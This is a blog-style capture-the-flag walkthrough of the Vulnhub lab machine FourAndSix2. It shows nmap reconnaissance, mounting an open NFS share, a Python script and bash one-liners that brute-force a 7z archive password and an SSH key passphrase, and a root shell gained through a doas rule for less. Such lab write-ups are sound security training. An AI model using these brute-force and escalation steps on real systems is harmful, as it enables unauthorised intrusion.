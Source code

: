 ```yaml
---
layout:     post
title:      "Vulnhub.com - CTF FourAndSix2"
date:       2018-12-10 0:00:00
author:     "W3ndige"
permalink: /:title/
category: Vulnhub
---
```


Task is to become root and read /root/flag.txt.

* Author: [Fred](https://www.vulnhub.com/author/fred,583/)
* Download: [https://www.vulnhub.com/entry/fourandsix-201,266/](https://www.vulnhub.com/entry/fourandsix-201,266/)

We can start by running `nmap` on our target IP.

{% highlight text %}
root@kali:~# nmap -sC -sV -sS -A 10.0.0.7
Starting Nmap 7.70 ( https://nmap.org ) at 2018-12-07 05:41 EST
Nmap scan report for 10.0.0.7
Host is up (0.00085s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 ef:3b:2e:cf:40:19:9e:bb:23:1e:aa:24:a1:09:4e:d1 (RSA)
|   256 c8:5c:8b:0b:e1:64:0c:75:c3:63:d7:b3:80:c9:2f:d2 (ECDSA)
|_  256 61:bc:45:9a:ba:a5:47:20:60:13:25:19:b0:47:cb:ad (ED25519)
111/tcp  open  rpcbind 2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100003  2,3         2049/tcp  nfs
|   100003  2,3         2049/udp  nfs
|   100005  1,3          658/udp  mountd
|_  100005  1,3          942/tcp  mountd
2049/tcp open  nfs     2-3 (RPC #100003)
MAC Address: 08:00:27:41:81:5A (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: OpenBSD 6.X
OS CPE: cpe:/o:openbsd:openbsd:6
OS details: OpenBSD 6.0 - 6.1
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.85 ms 10.0.0.7

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.75 seconds
{% endhighlight %}

There is `nfs` up and running. We can use `showmount` to view if there are any mountable shares. 

{% highlight text %}
root@kali:~# showmount -e 10.0.0.7
Export list for 10.0.0.7:
/home/user/storage (everyone)
{% endhighlight %}

Great, we have open share, which we can mount. 

{% highlight text %}
root@kali:~# mkdir /tmp/storage
root@kali:~# mount -t nfs 10.0.0.7:/home/user/storage /tmp/storage
root@kali:~# cd /tmp/storage/
root@kali:/tmp/storage# ls -la
total 68
drwxr-xr-x  2 1000 1000   512 Oct 29 08:28 .
drwxrwxrwt 16 root root  4096 Dec  7 06:07 ..
-rw-r--r--  1 1000 1000 62111 Oct 29 08:28 backup.7z
{% endhighlight %}

And now we have a file called `backup.7z` to analyze. 

{% highlight text %}
root@kali:/tmp/storage# 7z e backup.7z 

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs Intel(R) Core(TM) i5-2410M CPU @ 2.30GHz (206A7),ASM,AES-NI)

Scanning the drive for archives:
1 file, 62111 bytes (61 KiB)

Extracting archive: backup.7z
--
Path = backup.7z
Type = 7z
Physical Size = 62111
Headers Size = 303
Method = LZMA2:16 7zAES
Solid = +
Blocks = 1

    
Enter password (will not be echoed):
ERROR: Data Error in encrypted file. Wrong password? : hello1.jpeg
ERROR: Data Error in encrypted file. Wrong password? : hello2.png
ERROR: Data Error in encrypted file. Wrong password? : hello3.jpeg
ERROR: Data Error in encrypted file. Wrong password? : hello4.png
ERROR: Data Error in encrypted file. Wrong password? : hello5.jpeg
ERROR: Data Error in encrypted file. Wrong password? : hello6.png
ERROR: Data Error in encrypted file. Wrong password? : hello7.jpeg
ERROR: Data Error in encrypted file. Wrong password? : hello8.jpeg
ERROR: Data Error in encrypted file. Wrong password? : id_rsa
ERROR: Data Error in encrypted file. Wrong password? : id_rsa.pub
                 
Sub items Errors: 10

Archives with Errors: 1

Sub items Errors: 10
{% endhighlight %}

It's password protected, but while opening we can see some interesting files like `id_rsa`. As they may help us to get into the `ssh`, I decided to brute force the password with this little Python script. 

{% highlight python %}
#!/usr/bin/env python2
import os,sys
     
f = open(sys.argv[1],'r')
lines = f.read().splitlines()
     
for line in lines:
    x = os.system('7z e {0} -p{1}'.format(sys.argv[2],line))
    if x == 0:
    	print '[~] Password is : {0}\n\n'.format(line)
    	exit(1)
     
print '[!] Password not found in the provided list!\n\n'
{% endhighlight %}

Now let's run it and wait for the results. 

{% highlight text %}
root@kali:/tmp/storage# python brute.py /usr/share/wordlists/rockyou.txt backup.7z

Scanning the drive for archives:
1 file, 62111 bytes (61 KiB)

Extracting archive: backup.7z
--
Path = backup.7z
Type = 7z
Physical Size = 62111
Headers Size = 303
Method = LZMA2:16 7zAES
Solid = +
Blocks = 1

Everything is Ok

Files: 10
Size:       64066
Compressed: 62111
[~] Password is : chocolate
{% endhighlight %}

Now that we have everything decompressed, let's view the files. Firstly, in `id_rsa.pbu` we have name of the user. It will be essential for logging into the `ssh`.

{% highlight text %}
root@kali:/tmp/storage# cat id_rsa.pub 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDClNemaX//nOugJPAWyQ1aDMgfAS8zrJh++hNeMGCo+TIm9UxVUNwc6vhZ8apKZHOX0Ht+MlHLYdkbwSinmCRmOkm2JbMYA5GNBG3fTNWOAbhd7dl2GPG7NUD+zhaDFyRk5gTqmuFumECDAgCxzeE8r9jBwfX73cETemexWKnGqLey0T56VypNrjvueFPmmrWCJyPcXtoLNQDbbdaWwJPhF0gKGrrWTEZo0NnU1lMAnKkiooDxLFhxOIOxRIXWtDtc61cpnnJHtKeO+9wL2q7JeUQB00KLs9/iRwV6b+kslvHaaQ4TR8IaufuJqmICuE4+v7HdsQHslmIbPKX6HANn user@fourandsix2
{% endhighlight %}

Unfortunately, we also need a passphrase for the key.

{% highlight text %}
root@kali:/tmp/storage# ssh user@10.0.0.7 -i id_rsa
The authenticity of host '10.0.0.7 (10.0.0.7)' can't be established.
ECDSA key fingerprint is SHA256:6ERaSFrckV66j7RBrFiTjwlQs8WMfIiGZSLNj4otVb4.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.0.0.7' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
{% endhighlight %}

After trying to find clues in decompressed images, I decided to run another brute force attack.

{% highlight text %}
root@kali:/tmp/storage# ssh2john id_rsa > hash
! id_rsa : input keyfile validation failed
{% endhighlight %}

As `ssh2john` could not get the hashes from the key, I decided to run this simple one liner brute forcer with bash.

{% highlight text %}
root@kali:/tmp/storage# cat /usr/share/wordlists/rockyou.txt | while read pass; do if ssh-keygen -c -C “user@forandsix” -P $pass -f id_rsa &>/dev/null; then echo $pass; break; fi; done
12345678
{% endhighlight %}

And this time, we have a password `12345678`. Finally, we can log into the system. 

{% highlight text %}
root@kali:/tmp/storage# ssh user@10.0.0.7 -i id_rsa
Enter passphrase for key 'id_rsa': 
Last login: Mon Oct 29 13:53:51 2018 from 192.168.1.114
OpenBSD 6.4 (GENERIC) #349: Thu Oct 11 13:25:13 MDT 2018

Welcome to OpenBSD: The proactively secure Unix-like operating system.

Please use the sendbug(1) utility to report bugs in the system.
Before reporting a bug, please try to reproduce it with the latest
version of the code.  With bug reports, please try to ensure that
enough information to reproduce the problem is enclosed, and if a
known fix for it exists, include that as well.

fourandsix2$ ls -la
total 40
drwxr-xr-x  4 user  user   512 Oct 29 13:27 .
drwxr-xr-x  3 root  wheel  512 Oct 29 13:03 ..
-rw-r--r--  1 user  user    87 Oct 11 21:18 .Xdefaults
-rw-r--r--  1 user  user   771 Oct 11 21:18 .cshrc
-rw-r--r--  1 user  user   101 Oct 11 21:18 .cvsrc
-rw-r--r--  1 user  user   359 Oct 11 21:18 .login
-rw-r--r--  1 user  user   175 Oct 11 21:18 .mailrc
-rw-r--r--  1 user  user   215 Oct 11 21:18 .profile
drwx------  2 user  user   512 Oct 29 14:02 .ssh
drwxr-xr-x  2 user  user   512 Dec  8 12:24 storage
{% endhighlight %}

Doing simple enumaration for any misconfigured services, I've found `doas` tool.

{% highlight text %}
fourandsix2$ find / -perm -g=s -o -perm -u=s -type f 2>/dev/null
/usr/bin/at
/usr/bin/atq
/usr/bin/atrm
/usr/bin/batch
/usr/bin/chfn
/usr/bin/chpass
/usr/bin/chsh
/usr/bin/crontab
/usr/bin/doas
/usr/bin/lock
/usr/bin/lpq
/usr/bin/lpr
/usr/bin/lprm
/usr/bin/passwd
/usr/bin/skeyaudit
/usr/bin/skeyinfo
/usr/bin/skeyinit
/usr/bin/ssh-agent
/usr/bin/su
/usr/bin/wall
/usr/bin/write
/usr/libexec/lockspool
/usr/libexec/ssh-keysign
/usr/sbin/authpf
/usr/sbin/authpf-noip
/usr/sbin/lpc
/usr/sbin/lpd
/usr/sbin/pppd
/usr/sbin/smtpctl
/usr/sbin/traceroute
/usr/sbin/traceroute6
/sbin/ping
/sbin/ping6
/sbin/shutdown
/var/audit
{% endhighlight %}

After viewing it's configuration files, we can see that it's possible to run `/usr/bin/less args /var/log/authlog` as root with `doas`. 

{% highlight text %}
fourandsix2$ cat /etc/doas.conf
permit nopass keepenv user as root cmd /usr/bin/less args /var/log/authlog
permit nopass keepenv root as root

fourandsix2$ doas /usr/bin/less /var/log/authlog
{% endhighlight %}

From that, further exploitation is trivial as we have to enter `!sh` in order to run commands just like in `vim`. 

{% highlight text %}
fourandsix2# cd /root
fourandsix2# ls -la
total 40
drwx------   3 root  wheel  512 Oct 29 13:26 .
drwxr-xr-x  13 root  wheel  512 Dec  8 12:32 ..
-rw-r--r--   1 root  wheel   87 Oct 11 21:18 .Xdefaults
-rw-r--r--   1 root  wheel  578 Oct 11 21:18 .cshrc
-rw-r--r--   1 root  wheel   94 Oct 11 21:18 .cvsrc
-rw-r--r--   1 root  wheel    5 Oct 29 13:03 .forward
-rw-r--r--   1 root  wheel  328 Oct 11 21:18 .login
-rw-r--r--   1 root  wheel  468 Oct 11 21:18 .profile
drwx------   2 root  wheel  512 Oct 29 14:02 .ssh
-rw-r--r--   1 root  wheel  426 Oct 29 13:25 flag.txt
fourandsix2# cat flag.txt                                                      
Nice you hacked all the passwords!

Not all tools worked well. But with some command magic...:
cat /usr/share/wordlists/rockyou.txt|while read line; do 7z e backup.7z -p"$line" -oout; if grep -iRl SSH; then echo $line; break;fi;done

cat /usr/share/wordlists/rockyou.txt|while read line; do if ssh-keygen -p -P "$line" -N password -f id_rsa; then echo $line; break;fi;done


Here is the flag:
acd043bc3103ed3dd02eee99d5b0ff42
{% endhighlight %}